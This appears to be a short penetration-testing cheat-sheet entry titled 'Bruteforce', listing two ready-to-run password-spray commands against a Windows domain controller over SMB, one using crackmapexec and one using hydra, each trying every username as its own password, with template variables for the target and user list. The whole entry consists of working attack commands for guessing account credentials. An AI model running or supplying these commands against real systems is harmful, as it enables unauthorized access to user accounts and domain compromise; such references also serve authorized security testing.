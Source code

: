 # Bruteforce

## Password Spray (user=password) - cme

```
cme smb <domain-controller> -u <users-list> -p <users-list> --no-bruteforce --continue-on-success
```

= domain-controller: $DC
= users-list: ./targets/domain/users.txt

## Password Spray (user=password) - hydra

```
hydra -s 445 -L <users-list> -e s -V -t1 <domain-controller> smb
```

= domain-controller: $DC
= users-list: ./targets/domain/users.txt
